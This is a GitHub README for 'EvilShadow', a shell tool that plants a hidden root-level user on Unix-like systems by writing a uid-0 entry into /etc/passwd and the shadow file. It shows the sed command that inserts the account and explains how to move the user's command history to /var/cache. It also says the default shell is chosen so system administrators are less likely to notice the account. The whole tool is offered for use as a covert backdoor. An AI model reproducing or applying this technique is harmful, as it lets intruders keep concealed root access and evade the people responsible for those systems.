 # EvilShadow
Evil Shadow - Create Hidden Users in Unix-Like OS

## How does it work?
It creates a user with root group privileges using only shadow and passwd files. So when you login, You will notice that you are currently logged in with username root (Even though you aren't).

Commands history also will be saved in ```/.bash_history```, You can change this by specifying another home directory in script.

**For instance** you wanna change it to ```/var/cache```:

Replace

```sed "2i$USERNAME:x:0:0::/:" /etc/passwd > .passwd```

by

```sed "2i$USERNAME:x:0:0::/var/cache:" /etc/passwd > .passwd```

in Script.sh at line 14

## Dependencies
You must have **OpenSSL** and **sudo** installed in order Script to work

In Arch Linux:
```pacman -S openssl sudo```

in Debian Distros:
```apt install openssl sudo```

## Note
After you logged in you can change your shell to bash by simply entering command ```bash```.

I didn't want to make it obvious to system admins by putting /bin/bash as your default shell

## Feedback

Suggestions/Improvements are
[welcome](https://github.com/SajedMohseni/EvilShadow/issues)!

## Author

[Sajed Mohseni](mailto:S4jed@ProtonMail.com)
